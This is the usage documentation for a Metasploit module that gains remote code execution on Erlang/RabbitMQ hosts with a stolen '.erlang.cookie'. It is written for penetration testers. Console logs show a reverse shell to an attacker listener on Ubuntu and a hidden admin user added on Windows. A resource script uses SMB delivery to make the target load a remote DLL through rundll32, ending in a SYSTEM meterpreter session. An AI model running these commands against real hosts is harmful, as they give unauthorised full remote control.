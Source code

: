 ## Vulnerable Application

  The [Erlang Port Mapper Daemon](https://www.erlang.org/) is used to coordinate distributed erlang
  instances. Should an attacker get the authentication cookie code execution is trivial. Normally this
  cookie can be found in the home directory as ".erlang.cookie", however it varies system to system
  as well as its configuration. As an example on a Windows 10 instance it can be found under the
  users home directory: e.g `C:\Users\<USER>\.erlang.cookie`. Code execution is achieved via the
  `os:cmd('cmd').` command

## Verification Steps
  
  1. Install the Erlang Port Mapper Daemon
  2. Install RabbitMQ
  3. Start `msfconsole`
  4. Do `use exploit/multi/misc/erlang_cookie_rce`
  5. Do `set RHOST <ip>`
  6. Do `set COOKIE <cookie>`
  7. Do `set TARGET <target>`
  8. Do `set LHOST <host>`
  9. `exploit` and verify shell is opened (if on windows login)

## Scenarios

### Ubuntu 16.04.5 LTS

```
msf exploit(multi/misc/erlang_cookie_rce) > options 

Module options (exploit/multi/misc/erlang_cookie_rce):

   Name    Current Setting       Required  Description
   ----    ---------------       --------  -----------
   COOKIE  EXAMPLE               yes       Erlang cookie to login with
   RHOST   A.B.C.D               yes       The target address
   RPORT   25672                 yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  W.X.Y.Z          yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix


msf exploit(multi/misc/erlang_cookie_rce) > exploit

[*] Started reverse TCP double handler on W.X.Y.Z:4444 
[*] A.B.C.D:25672 - Receiving server challenge
[*] A.B.C.D:25672 - Sending challenge reply
[+] A.B.C.D:25672 - Authentication successful, sending payload
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo XinIWxzXWDO5x9EM;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "XinIWxzXWDO5x9EM\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (W.X.Y.Z:4444 -> A.B.C.D:46410) at 2018-12-09 14:45:47 -0600

id
uid=122(rabbitmq) gid=130(rabbitmq) groups=130(rabbitmq)
```

### Windows 10 (Build 17134)

First we want to exploit the host, as an example adding a new user. (Payload is executed over cmd.exe)

```
msf exploit(multi/misc/erlang_cookie_rce) > options 

Module options (exploit/multi/misc/erlang_cookie_rce):

   Name    Current Setting       Required  Description
   ----    ---------------       --------  -----------
   COOKIE  EXAMPLE               yes       Erlang cookie to login with
   RHOST   A.B.C.D               yes       The target address
   RPORT   25672                 yes       The target port (TCP)


Payload options (cmd/windows/adduser):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   CUSTOM                   no        Custom group name to be used instead of default
   PASS    Wetw0rkHax0r$1   yes       The password for this user
   USER    wetw0rk          yes       The username to create
   WMIC    false            yes       Use WMIC on the target to resolve administrators group


Exploit target:

   Id  Name
   --  ----
   1   Windows


msf exploit(multi/misc/erlang_cookie_rce) > exploit

[*] A.B.C.D:25672 - Receiving server challenge
[*] A.B.C.D:25672 - Sending challenge reply
[+] A.B.C.D:25672 - Authentication successful, sending payload
[*] Exploit completed, but no session was created.
```

Once exploitation is complete the tester can authenticate. Another method that can be used is SMB as shown below.

exploit.rc ->

```
use exploit/windows/smb/smb_delivery
set SHARE MSF
set TARGET 0
exploit -j
use exploit/multi/misc/erlang_cookie_rce
set COOKIE EXAMPLE
set TARGET 1
set RHOST A.B.C.D
set PAYLOAD cmd/windows/generic
set CMD "rundll32.exe \\\\W.X.Y.Z\MSF\test.dll,0"
exploit -j
```

```
msf > resource exploit.rc
[*] Processing /root/exploit.rc for ERB directives.
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on W.X.Y.Z:4444 
[*] Started service listener on W.X.Y.Z:445 
[*] Server started.
[*] Run the following command on the target machine: rundll32.exe \\W.X.Y.Z\MSF\test.dll,0
[*] Exploit running as background job 1.
[*] A.B.C.D:25672 - Receiving server challenge
[*] A.B.C.D:25672 - Sending challenge reply
[+] A.B.C.D:25672 - Authentication successful, sending payload
[*] Sending stage (179779 bytes) to A.B.C.D
[*] Meterpreter session 1 opened (W.X.Y.Z:4444 -> A.B.C.D:51856) at 2018-12-18 14:45:02 -0600
[*] Exploit completed, but no session was created.
msf exploit(multi/misc/erlang_cookie_rce) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
